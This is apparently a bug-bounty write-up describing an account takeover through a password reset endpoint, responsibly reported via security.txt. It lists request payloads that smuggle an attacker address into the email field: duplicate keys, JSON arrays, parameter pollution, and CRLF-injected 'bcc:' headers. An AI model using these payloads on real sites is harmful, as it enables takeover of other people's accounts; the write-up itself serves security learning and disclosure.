  ![Reset-Password](https://user-images.githubusercontent.com/106372696/171008056-dcd80d53-b8c0-4373-ab92-1a7d75615122.png)


Hi Everyone,

This is the brief story about how I managed to takeover someone account using password reset flaw on the website.While browsing the website I need to signin to the account but It was a long time ago since I logged into my account.so, I can't remember my password so I decided to reset my password, but suddendly I decide to play with password reset functionality if I can reset someone's account.
	
#### Attempt 1:
I intercept the traffic with Burpsuite and capture the request and saw something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "something@email.com"
}

```
I changed the request body something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com",
       "email" : "myemail2@email.com"
}

```

And of course its failed only reset token sent to myemail1 account not myemail2 account.

#### Never Give Up:
After that I tried some other methods like following

```bash
POST /ResetPassword

...
...

{
	"email" : "myeamil1@email.com%20myemail2@email.com"
}

```

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com%20cc:myemail2@email.com"
}

```

#### One Last Ride...
Ok, thats it I was ready to give up but I remember one blog post that I read, it mentioned you can use **JSON Table** That will help you to send set of elements in array so, I give it a try luckily It sent password reset link to my attacker account and I can able to reset victim's account.

```bash
POST /Resetpassword

...
...

{
	"email" : ["myemail1@email.com","myemail2@email.com"]
}

```

Then I decided to send the report to their security team, but they don't have VDP or RDP on any crowdsource platform like Hackerone or Bugcrowd.So, I search **security.txt**(RFC 9116) and find their security team email that tells me where I should report related to security issues. I sent my finds and they reward me through btc (they don't hall of fame :( ).

	Note: You can find security.txt by https://www.website.com/.well-known/security.txt
	
#### Other methods to check password related issues:

```bash
POST /ResetPassword

...
...

email="victim@email.com&email=attacker@email.com"

```

```bash
POST /ResetPassword

...
...

email="victim@email.com%20email=attacker@email.com"

```

```bash
POST /ResetPassword

... 
...

email="victim@email.com|email=attacker@email.com" 

```

```bash
POST /ResetPassword 

... 
...

email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"  

```

I don't do bug bounties but this one I accidently try my luck and got success..Thanks for Reading this article. I hope you all enjoy this one. cheers :)

Usefull Resources :

[Password Reset Poisoning - Portswigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)

[10 Password Reset Flaws - AnugrahSR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)

[All about Password Reset Vulnerablities - Infosec Writeups](https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7?gi=5037f755d2b2)
